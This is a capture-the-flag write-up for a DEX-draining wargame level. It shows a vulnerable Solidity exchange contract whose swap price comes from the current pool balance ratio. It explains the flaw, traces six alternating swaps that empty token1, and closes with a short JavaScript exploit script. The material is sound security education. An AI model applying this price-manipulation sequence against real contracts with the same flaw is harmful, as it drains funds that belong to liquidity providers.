

## Challenge
### Description
The goal of this level is to manipulate the price calculation of a basic DEX contract and drain all of one of the two tokens the contract holds.
The player starts with 10 `token1` and 10 `token2`. The DEX contract holds 100 of each token.
The level is solved when the contract's balance of either `token1` or `token2` is 0.
In a normal ERC20 swap, you first call `approve` on the token contract so the DEX can take your tokens. For convenience, this level provides `Dex.approve(spender, amount)`, which handles the approval for both tokens at once.
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract Dex is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function addLiquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableToken(token1).approve(msg.sender, spender, amount);
        SwappableToken(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableToken is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```
## Background

---

DEX stands for decentralized exchange. A centralized exchange typically matches buyers and sellers through an order book, whereas an AMM-style DEX computes the exchange amount from the token pool held in the contract and a pricing formula.
For example, if a pool holds token A and token B, the swap price depends on the A/B ratio inside the pool. Each swap changes the pool balances, so the price of the next swap changes too.

---

Real AMMs usually maintain an invariant such as `x * y = k` and account for fees and slippage, so that a single trade cannot wreck the pool.
The `Dex` in this level, however, just uses the ratio of the current pool balances.
$$
swapAmount = amount \times \frac{balance(to)}{balance(from)}
$$
This formula ignores how the balances will change as a result of the swap. If an attacker keeps swapping back and forth, each swap exploits the shifted pool ratio to extract more and more tokens.

---

Solidity `uint256` division truncates the fractional part. For example, $20 \times 110 / 90$ is about $24.44$ mathematically, but `24` in Solidity.
The bug is the flawed pricing formula, not the truncation. But since results are truncated to integers, truncation must always be applied when tracing the actual swap amounts by hand.
## Code analysis

---

First, the restriction on which tokens can be swapped:
```solidity
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
```
`swap` only allows `token1 -> token2` or `token2 -> token1`. So injecting an arbitrary malicious token is blocked in this level. That approach is closer to the point of the next level, Dex Two.
The second `require` only checks that the user holds enough of the `from` token. It does not separately check that the contract holds enough of the `to` token, but the final `transferFrom` fails as an ERC20 transfer if it tries to send more than the balance. On the last swap, `amount` has to be chosen so that the output does not exceed the contract's balance of the token being received.

---

Next, the price calculation:
```solidity
function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
```
The price is the ratio of the DEX's `to` token balance to its `from` token balance.
Initially the DEX holds `token1 = 100` and `token2 = 100`, so putting in 10 `token1` returns 10 `token2`. After this swap the DEX balances are `token1 = 110`, `token2 = 90`.
Now swapping 20 `token2` back gives `20 * 110 / 90 = 24`. The user gets more `token1` than they started with. Repeating this quickly drains one side of the pool.

---

Finally, the approval flow:
```solidity
function approve(address spender, uint256 amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
}
```
`Dex.approve` grants `spender` an allowance over both of `msg.sender`'s tokens. Calling `contract.approve(contract.address, amount)` once before the attack lets the DEX pull both of the player's tokens.
`SwappableToken.approve(owner, spender, amount)` has an `owner != _dex` check, but here `owner` is the player's address, so it is not a problem.
## Solution
Let `A = token1` and `B = token2`. The initial state is:
- Player: `A = 10`, `B = 10`
- DEX: `A = 100`, `B = 100`

The attack alternates swapping whatever tokens we hold, continually pushing the pool ratio in the attacker's favor.
First, swapping 10 `A -> B` gives `10 * 100 / 100 = 10`, so the player receives 10 `B`. The player now has `B = 20`, and the DEX has `A = 110`, `B = 90`.
Next, swap 20 `B -> A`. The calculation is `20 * 110 / 90 = 24`, so the player receives 24 `A`.
Repeating this, the amounts progress as follows.
```plain text
swap A -> B 10  => DEX A=110, B=90
swap B -> A 20  => DEX A=86,  B=110
swap A -> B 24  => DEX A=110, B=80
swap B -> A 30  => DEX A=69,  B=110
swap A -> B 41  => DEX A=110, B=45
swap B -> A 45  => DEX A=0,   B=90
```
At the end the player holds 65 `B`, but putting all of it in would yield more `A` than the DEX's balance of 110, and the transfer could fail. So the last swap only puts in 45 `B`.
$$
45 \times \frac{110}{45} = 110
$$
This brings the DEX's `token1` balance to exactly 0.
### Exploit
```javascript
const token1 = await contract.token1();
const token2 = await contract.token2();

await contract.approve(contract.address, 500);

await contract.swap(token1, token2, 10);
await contract.swap(token2, token1, 20);
await contract.swap(token1, token2, 24);
await contract.swap(token2, token1, 30);
await contract.swap(token1, token2, 41);
await contract.swap(token2, token1, 45);
```

